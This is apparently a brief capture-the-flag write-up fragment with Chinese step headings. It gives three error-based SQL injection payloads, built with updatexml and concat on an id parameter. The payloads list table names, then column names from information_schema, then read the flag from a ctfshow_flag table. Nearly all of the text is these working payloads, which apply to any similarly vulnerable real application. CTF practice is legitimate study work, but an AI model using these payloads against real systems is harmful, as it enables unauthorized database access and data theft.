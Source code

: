 ![2441](/medias/show-sql/2441.png)

爆表

```sql
?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23
```

爆字段

```sql
?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database()),0x7e),1)%23
```


爆金币

```sql
?id=1' and updatexml(1,concat(0x7e,(select flag from ctfshow_flag),0x7e),1)%23
```

![2442](/medias/show-sql/2442.png)
